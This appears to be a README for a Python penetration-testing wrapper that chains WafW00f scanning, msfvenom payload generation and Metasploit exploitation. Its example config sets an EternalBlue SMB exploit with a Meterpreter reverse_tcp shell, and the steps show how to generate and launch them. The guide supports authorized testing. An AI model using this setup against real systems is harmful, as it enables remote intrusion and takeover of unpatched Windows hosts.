 -------------------------------------------------------------
📌 Step 1: Install Dependencies
-------------------------------------------------------------
Before running the tool, install the required dependencies:

🔧 Install Required Packages:
$ pip install pyyaml
$ sudo apt install wafw00f metasploit-framework

-------------------------------------------------------------
📌 Step 2: Configure config.yaml
-------------------------------------------------------------
Modify the `config.yaml` file to set your target, payload settings, and Metasploit 
exploit details.

Example config.yaml:
target: "example.com"  # Target for scanning

payload:
  type: "windows/meterpreter/reverse_tcp"
  lhost: "192.168.1.100"
  lport: "4444"

metasploit:
  exploit: "exploit/windows/smb/ms17_010_eternalblue"
  payload: "windows/meterpreter/reverse_tcp"
  rhost: "192.168.1.100"
  lhost: "192.168.1.100"
  lport: "4444"

-------------------------------------------------------------
📌 Step 3: Run the Tool
-------------------------------------------------------------

1️⃣ Scan a Target for WAF using WafW00f
$ python vapt_tool.py --scan
📌 Output: Saves results in reports/waf_scan.json.

2️⃣ Generate a Payload using MSFvenom
$ python vapt_tool.py --payload
📌 Output: Saves payload in the payloads/ directory.

3️⃣ Exploit a Target using Metasploit
$ python vapt_tool.py --exploit
📌 Output: Saves logs in reports/exploit.log.

4️⃣ Run All Modules Together
$ python vapt_tool.py --scan --payload --exploit

-------------------------------------------------------------
📌 Step 4: View Reports and Logs
-------------------------------------------------------------

- WAF Scan Results: reports/waf_scan.json
- Payload File: payloads/<payload_name>.exe
- Exploit Logs: reports/exploit.log
- Activity Logs: logs/vapt.log

To check logs:
$ cat logs/vapt.log